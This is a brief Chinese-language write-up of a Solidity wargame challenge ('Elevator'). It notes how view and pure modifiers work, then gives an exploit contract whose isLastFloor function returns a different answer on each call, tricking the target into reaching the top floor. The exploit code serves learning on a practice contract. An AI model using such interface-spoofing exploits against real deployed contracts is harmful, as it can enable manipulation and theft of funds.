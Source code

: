 这题学习了solidity中接口的一些用法，根据题目详解也了解到了view和pure函数修改器的作用，可以防止状态被篡改，但是即使这样，也可以构造一个不同输入得到不同输出的函数解出本题。

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.8.0;

    /* code of Elevator */

    contract Exploit {
        Elevator elevator;
        bool top = true;
        constructor(address challenge) public {
            elevator = Elevator(challenge);
        }
        function isLastFloor(uint) public returns (bool) {
            top = !top;  // 调用一次就改一次返回值
            return top;
        }
        function exp() public {
            elevator.goTo(1);
        }
    }
    ```
